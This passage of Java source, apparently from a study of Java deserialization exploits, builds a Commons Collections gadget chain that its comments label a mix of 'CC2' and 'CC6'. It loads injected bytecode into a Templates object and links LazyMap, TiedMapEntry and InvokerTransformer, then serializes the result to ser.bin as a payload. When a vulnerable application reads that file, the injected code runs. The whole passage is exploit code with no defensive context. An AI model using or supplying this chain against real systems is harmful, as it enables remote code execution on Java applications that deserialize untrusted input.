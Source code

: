 ```java
        nameField.set(templates,"aaaa");
        Field bytecodesField = aClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates,new byte[][]{bytes});
//CC2
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
//CC6
        HashMap<Object, Object> map = new HashMap<Object, Object>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, templates);
        HashMap<Object, Object> map2 = new HashMap<Object, Object>();
        map2.put(tiedMapEntry,"bbb");
        lazyMap.remove(templates);
        Class<LazyMap> c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap,invokerTransformer);
        serialize(map2);
    }
    public static void serialize(Object obj) throws IOException, ClassNotFoundException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
        //unserialize("test.out");
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(Filename));
        Object object = objectInputStream.readObject();
        return object;
    }
}
```
